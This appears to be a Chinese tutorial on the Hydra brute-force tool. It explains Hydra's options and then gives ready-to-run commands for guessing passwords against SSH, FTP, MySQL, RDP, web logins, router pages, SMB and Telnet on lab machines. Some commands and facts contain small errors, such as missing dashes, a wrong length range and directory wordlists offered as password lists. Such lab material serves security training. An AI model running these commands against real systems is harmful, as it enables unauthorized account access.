








# 1.**Hydra简介**

## 1.1.**Hydra介绍**

hydra（九头蛇）是著名黑客组织thc的一款开源的暴力破解密码工具，功能非常强大，[kali](https://so.csdn.net/so/search?q=kali&spm=1001.2101.3001.7020)下是默认安装的，几乎支持所有协议的在线破解。密码能否破解，在于字典是否强大。

## 1.2.**Hydra支持协议**	

```
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP。
```


## 1.3.**Hydra下载**

至于Hydra下载在kail中是自带了，这里就不进行安装了，感兴趣的可以去项目地址看看。

[项目地址](https://github.com/vanhauser-thc/thc-hydra)

# 2.**Hydra使用**

## 2.1.**Hydra基本使用方式**

```
使用语法：hydra 参数 IP地址 服务名

帮助命令：hydra -h

常用命令：hydra [-l 用户名|–L 用户名文件路径] [-p 密码|–P 密码文件路径] [-t 线程数] [–vV 显示详细信息] [–o 输出文件路径] [–f 找到密码就停止] [–e ns 空密码和指定密码试探] [ip|-M ip列表文件路径]
```

 

## 2.2.**Hydra常用参数**

| 参数  | 介绍                                                       |
| ----- | ---------------------------------------------------------- |
| -h    | 查看帮助菜单。                                             |
| -R    | 继续从上一次进度接着破解。                                 |
| -S    | 采用SSL链接。                                              |
| -s    | PORT 可通过这个参数指定非默认端口。                        |
| -l    | LOGIN 指定破解的用户，对特定用户破解。                     |
| -L    | FILE 指定用户名字典。                                      |
| -p    | PASS 小写，指定密码破解，少用，一般是采用密码字典。        |
| -P    | FILE 大写，指定密码字典。                                  |
| -e    | ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。    |
| -C    | FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。  |
| -M    | FILE 指定目标列表文件一行一条。                            |
| -o    | FILE 指定结果输出文件。                                    |
| -f    | 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。 |
| -t    | TASKS 同时运行的线程数，默认为16。                         |
| -w    | TIME 设置最大超时的时间，单位秒，默认是30s。               |
| -v/-V | 显示详细过程。                                             |
| -x -h | 密码生成器帮助                                             |

## 2.3.**Hydra注意事项**

1. server：指定目标IP。
2. service：指定服务名，支持的服务跟协议有：telnet，ftp，pop3等等。
3. 自己创建字典,然后放在当前的目录下或者指定目录。
4. 参数可以统一放在最后，格式比如hydra ip 服务 参数。
5. 如果能确定用户名一项时候，比如web登录破解，直接用 -l就可以，然后剩余时间破解密码。
6. 缺点就是如果目标网站登录时候需要验证码就无法破解。

## 2.4.**Kail字典**

在kail中是自带字典的，可以通过/usr/share/wordlists/dirb路径进行查看，当然都是txt文件，也可以自己向里面添加。

| ***\*文件名\****      | ***\*介绍\****                   |
| --------------------- | -------------------------------- |
| big.txt               | 大的字典                         |
| small.txt             | 小的字典                         |
| catala.txt            | 项目配置字典                     |
| common.txt            | 公共字典                         |
| euskera.txt           | 数据目录字典                     |
| extensions_common.txt | 常用文件扩展名字典               |
| indexes.txt           | 首页字典                         |
| mutations_common.txt  | 备份扩展名                       |
| spanish.txt           | 方法名或库目录                   |
| others                | 扩展目录，默认用户名、默认密码等 |
| stress                | 压力测试                         |
| vulns                 | 漏洞测试                         |

 

## 2.5.**Hydra密码生成器**

| 参数                                     | 介绍                                                         |
| ---------------------------------------- | ------------------------------------------------------------ |
| -x MIN:MAX:CHARSET	密码暴力破解生成器 | 规则：MIN表示生成密码的最短长度；MAX表示生成密码的最长长度；CHARSET表示使用指定的字符生成密码，'a'表示所有的小写字母，'A'表示所有的大写字母,'1'表示所有的数字，对于其他字符，只需要添加在后面即可 |
| -y                                       | 使用方式见-x，它表示charset的字符是实际的字符，而不是正则表达式 |
| -x  3:5:a                                | 生成的密码字典长度为3到5位，由所有的小写字母组成             |
| -x  5:8:A1                               | 生成的密码字典长度为5到8位，有所有的大写字母和数字组成       |
| -x  5:5/%,.-                             | 生成的密码字典长度为5位，只由'/ % , . -'这5种字符构成        |
| -x  3:5:aA1 -y                           | 生成的密码字典长度为3到5位，且只由'a A 1'这三种字符组成      |
| -x  3:5:aA1.-+#                          | 生成的密码字典长度为3到8位，由大小写字母+数字+.-+#进行组合。 |

 

# 3.**Hydra案例**

## 3.1.**创建账号密码文件**

这里由于自己搭建的靶场密码都挺复杂的，通常爆破的可能不大，这里就手创建几个账号和密码进行测试。

 

## 3.2.**SSH协议爆破**

### 3.2.1.**靶机信息**

Kail攻击机：192.168.10.20

centos7靶机：192.168.10.30

### 3.2.2.**开始爆破**

#### 3.2.2.1.**不知账号**

这里我是用我指定的账号密码文件进行破解，如果像我一样自己创建账号密码进行破解，那么你在那个目录下创建的就需要在那个目录下操作，否则就需要加上绝对路径，并且我这里设置的线程很少，如果你感觉慢，那么可以使用多一点的线程来跑字典。

```
命令：hydra -L user.txt -P passwd.txt -t 2 -vV -e ns 192.168.10.30 ssh
```

 

#### 3.2.2.2.**知道账号**

若知道账号了，比如root，那么可以直接指定账号配合密码字典来测试，会更快。

```
命令：hydra -l root -P passwd.txt -t 2 -vV -e ns 192.168.10.30 ssh 
```

 

## 3.3.**FTP协议爆破**

由于FTP协议爆破和SSH协议爆破基本一致，这里就演示具体的爆破手法了，直接放命令吧。

```
不知账号命令：hydra -L user.txt -P passwd.txt -t 2 -vV -e ns 192.168.10.30 ftp 

知道账号命令：hydra -l root -P passwd.txt -t 2 -vV -e ns 192.168.10.30 ftp 
```


## 3.4.**数据库爆破**

### 3.4.1.**靶机信息**

Kail攻击机：192.168.10.20

windows10靶机：192.168.10.150

### 3.4.2.**开始爆破**

这里我也不分知不知道账号了，这里假设我们知道账号是root。

```
命令：hydra -l root -P passwd.txt -t 6 -vV -e ns 192.168.10.150 mysql
```

 

## 3.5.**远程桌面爆破**

### 3.5.1.**靶机信息**

Kail攻击机：192.168.10.20

windows10靶机：192.168.10.150

### 3.5.2.**开始爆破**

远程桌面爆破这里可以设定用户名也可以不设定用户名，我在爆破测试的时候，发现当爆破出账号密码后，会继续爆破，但是会出报错，暂时不知道情况，不知道是不是为了爆破出更多的账号密码。

这里我也不区分有没有账号了。

```
命令：hydra -L user.txt -P passwd.txt -t 6 -vV -e ns 192.168.10.150 rdp 
```

 

## 3.6.**HTTP协议爆破**

### 3.6.1.**靶机信息**

Kail攻击机：192.168.10.20

windows10靶机：192.168.10.150

页面地址：/dvwa/login.php

### 3.6.2.**开始爆破**

在HTTP协议中存在POST与GET方式进行提交。

#### 3.6.2.1.**POST方式爆破**

```
命令：hydra -l admin -P passwd.txt -t 6 -vV -e ns 192.168.10.150 http-post-form "/pikachu/vul/burteforce/bf_form.php:username=^USER^&password=^PASS^&submit=login:username or password is nois not exists～" 
```

```
解释：后面的http-post-form是定义在http中使用post进行提交，后面的/pikachu/vul/burteforce/bf_form.php是访问的URL，而且后面的username与password是根据抓包获取到的格式，至于里面的^USER^和^PASS^是固定格式，再后面的login是报错信息。
```

 

#### 3.6.2.2.**GET方式爆破**

这里其实格式和post差不多，都可以一样使用，只需要修改提交类型即可。

```
命令：hydra -L user.txt -P passwd.txt -t 6 -vV -e ns 192.168.10.50 http-get /phpMyAdmin/ 
```

解释：后面的http-get是定义在http中使用什么提交方式进行爆破，而后面的//phpMyAdmin/指的是URL的访问连接，例如：你的登录页面是admin/index.php，那么后面就要更改为/admin/index.php

 

## 3.7.**其它爆破**

由于我这边没有实际的案例，无法进行测试。

### 3.7.1.**HTTPS爆破**

下面这个命令，是我在搜索中发现基本上是一致的，然而我式了一下，Hydra直接报错，提示无https协议。正确暂时我还没有测试出来，后面我再找找相关的命令，测试出来，我再添加上去。

```
命令：hydra -m /index.php -l 用户名 -P 密码字典.txt IP地址 https
```

### 3.7.2.**路由器爆破**

路由器爆破，通常默认管理密码都是一串10位左右的各种大小写加特殊字符组成。而这里对路由器爆破就用枚举生成进行爆破。

```
命令：hydra -l admin -x 6:10:1aA.~!@#$%^&()-= -t 6 -vV -e ns 192.168.10.50 http-get /
```

解释：-x是后面的是代表自动生成6到10位由大小写数字+特殊字符组成的密码。

### 3.7.3.**SMB爆破**

```
命令：hydra -L user.txt P passwd.txt -t 6 -vV -e ns 192.168.10.50 smb
```

### 3.7.4.**TELNET爆破**

```
命令：hydra -L user.txt P passwd.txt -t 6 -vV -e ns 192.168.10.50 telnet
```


 

 